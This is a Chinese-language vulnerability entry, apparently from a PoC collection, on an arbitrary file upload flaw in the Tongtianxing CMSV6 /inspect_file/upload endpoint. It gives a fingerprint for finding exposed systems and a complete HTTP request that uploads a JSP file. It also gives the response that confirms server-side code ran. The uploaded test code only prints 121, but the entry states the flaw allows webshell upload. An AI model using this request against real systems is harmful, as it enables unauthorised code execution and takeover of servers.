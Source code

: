 ﻿# 通天星-CMSV6-inspect_file-upload 任意文件上传漏洞

> 更新时间：2024-03-27

> 漏洞编号：

> 漏洞说明：通天星CMSV6系统/inspect_file/upload接口存在一个任意文件上传漏洞，该漏洞使得攻击者可以在受影响的系统上传webshell。

> 漏洞特征：body="808gps"

> 验证脚本：HTTP

```
POST /inspect_file/upload HTTP/1.1
Accept: */*
Content-Type: multipart/form-data;boundary=-----------------------------7db372eb000e2

-----------------------------7db372eb000e2
Content-Disposition: form-data; name="uploadFile"; filename="dudesite.jsp"
Content-Type: application/octet-stream

<% out.println(11*11);%>
-----------------------------7db372eb000e2--
```

> 响应代码特征：200

> 响应内容特征：121

> 上传文件定位：

> 验证文件来源：通天星-CMSV6-inspect_file-upload 任意文件上传漏洞.poc

